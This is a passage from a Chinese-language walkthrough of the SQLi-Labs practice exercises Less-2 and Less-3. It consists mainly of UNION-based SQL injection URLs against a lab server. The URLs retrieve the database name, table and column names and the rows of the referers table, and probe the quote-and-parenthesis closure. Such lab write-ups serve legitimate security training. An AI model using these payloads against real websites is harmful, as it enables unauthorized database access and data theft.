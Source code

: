 ```sql
#回显出来了以后就跟第一关一样了
#获取数据库名
http://8.137.60.154:8082/Less-2/?id=-1 union select 1,2,database() 

#获取表名
http://8.137.60.154:8082/Less-2/?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() 

#获取referers表的字段
http://8.137.60.154:8082/Less-2/?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="referers" 

#获取数据
http://8.137.60.154:8082/Less-2/?id=-1 union select 1,2,group_concat(id,referer,ip_address) from security.referers 
```

****

### Less-3(联合查询->`')`闭合)

```sql
#判断闭合方式
http://8.137.60.154:8082/Less-3/?id=-1'union select 1,2,3 --+
```

![image-20241007014546258](./assets/image-20241007014546258.png)

```sql
#回显数据
http://8.137.60.154:8082/Less-3/?id=-1')union select 1,2,3 --+
```

![image-20241007014631338](./assets/image-20241007014631338.png)
